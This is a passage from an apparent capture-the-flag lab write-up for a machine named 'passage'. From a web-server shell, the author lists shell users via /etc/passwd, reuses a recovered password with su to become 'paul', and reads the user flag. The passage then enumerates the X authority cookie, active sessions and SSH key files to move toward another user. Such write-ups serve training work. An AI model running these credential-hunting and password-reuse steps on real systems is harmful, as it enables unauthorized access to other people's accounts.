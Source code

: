 I will try the password `atlanta1` on all users

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ cat /etc/passwd|grep sh$|awk -F':' '{print$1}'
root
nadav
paul
```

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ su - root
Password:
su: Authentication failure
www-data@passage:/var/www/html/CuteNews/uploads$ su - nadav
Password:
su: Authentication failure
www-data@passage:/var/www/html/CuteNews/uploads$ su - paul
Password:
paul@passage:~$ id
uid=1001(paul) gid=1001(paul) groups=1001(paul)
paul@passage:~$ cat user.txt
5c107d52957921189b2e060da53e7e96
```

# Root Flag
---

## From paul to nadav


### Enumeration

There's `.Xauthority presented`, and `nadav` have a logon session, so if I get access to `nadav`, I may be able to abuse `Xauthority` cookie to view the user desktop

```bash
paul@passage:~$ strings .Xauthority
passage
MIT-MAGIC-COOKIE-1
paul@passage:~$ w
 20:38:26 up  1:16,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
nadav    tty7     :0               19:22    1:15m  3.83s  0.18s /sbin/upstart --user
```

### Misconfigured ssh key

I noticed a weird thing about the ssh keys

```bash
paul@passage:~$ find . -type f -exec ls -latr {} + 2>/dev/null
-rw-r--r-- 1 paul paul    220 Aug 31  2015 ./.bash_logout
-rw-r--r-- 1 paul paul   8980 Apr 20  2016 ./examples.desktop
-rw-r--r-- 1 paul paul    655 May 16  2017 ./.profile
-rw-r--r-- 1 paul paul    395 Jul 21  2020 ./.ssh/id_rsa.pub
-rw------- 1 paul paul   1679 Jul 21  2020 ./.ssh/id_rsa
-rw-r--r-- 1 paul paul    395 Jul 21  2020 ./.ssh/authorized_keys
---------- 1 paul paul      0 Jul 21  2020 ./.bash_history
-rw-r--r-- 1 paul paul   3770 Jul 21  2020 ./.bashrc
[...]
-r-------- 1 paul paul     33 Feb  7 19:22 ./user.txt
```
